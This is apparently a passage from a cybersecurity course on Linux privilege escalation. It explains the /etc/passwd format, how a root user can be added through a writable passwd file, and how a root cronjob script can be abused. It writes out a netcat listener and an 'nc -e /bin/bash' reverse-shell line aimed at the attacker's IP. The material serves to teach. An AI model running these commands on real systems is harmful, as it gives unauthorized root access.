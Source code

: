 To go a little deeper into how this happens, we first need to know a little bit about how that file is populated. This is a normal line in the file:

```bash
test:x:0:0:root:/root:/bin/bash
```

- Test: is the username
- x: is the password. When it is an 'x', it means that the password is encrypted in/etc/shadow.
- 0: is the user ID. 0' is reserved for root.
- 0: is the group ID
- root: is the user ID information
- /root: is the user's home directory
- /bin/bash: is the absolute path to the shell used by this user.

Now let's look at the proof of concept of the vulnerability. To remember, what we want to do is, if we can write to /etc/passwd, create a password hash, make an entry in the file with the hash we created in the password, log in as that user with root access.

1. Create password hash:

![NoSQL12](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL12.png?raw=true)

2. Create an entry and place it in the file:

![NoSQL13](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL13.png?raw=true)

3. Simply login to the ch user with root privileges. The password is pass123.

## Processes that run automatically

Cronjobs are processes in which the system runs automatically with a certain periodicity. Sometimes they run a certain bash file as root and also run a certain set of commands as root. If we identify a cronjob that runs a file that we can also write... You'll see where this is going.

To see which cronjobs are running, simply run the cat/etc/crontab command. If this doesn't return anything useful we can run a program called pspy64 ([https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)) which shows us all the processes running on the system.

In this example, we find that a certain file (cleanall.sh) runs as root and we can write to it. So we try to make it run a reverse netcat shell on our machine and, if the connection is successful, we get root access to the machine.

- On our machine, we start a Netcat listener:

```bash
nc -lnvp <port>
```

On our target, we place in the above file a connection to our listener:

```bash
echo "nc -e /bin/bash <our_ip> <port> > cleanall.sh.
```

> When this runs, we have our root shell.

### SUID/GUID lookup
